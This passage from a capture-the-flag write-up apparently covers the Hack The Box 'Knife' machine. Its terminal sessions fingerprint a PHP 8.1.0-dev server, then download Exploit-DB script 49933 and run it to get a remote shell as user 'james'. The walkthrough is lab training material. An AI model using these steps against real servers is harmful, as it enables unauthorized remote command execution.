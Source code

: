 {% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/knife]
└─$ curl -I http://10.10.10.242         
HTTP/1.1 200 OK
Date: Mon, 20 Jan 2025 13:56:07 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```
{% endraw %}

<br />
Check Exploit-db for any potential exploits for that version of PHP listed in the X-Powered-By header.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/knife/exploit.png" title="Exploit-DB Exploit" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
<a href="https://www.exploit-db.com/exploits/49933">Exploit-DB</a>

<br />
Download the python script exploit to the local working folder.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/knife]
└─$ wget https://www.exploit-db.com/raw/49933 -O exploit.py                                
--2025-01-21 01:05:23--  https://www.exploit-db.com/raw/49933
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2040 (2.0K) [text/plain]
Saving to: ‘exploit.py’

exploit.py                                                 100%[========================================================================================================================================>]   1.99K  --.-KB/s    in 0s      

2025-01-21 01:05:24 (59.1 MB/s) - ‘exploit.py’ saved [2040/2040]
```
{% endraw %}

<br />
Execute the script and run whoami just to test the command execution.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/knife]
└─$ python exploit.py
Enter the full host url:
http://10.10.10.242

Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$ whoami
james
```
{% endraw %}
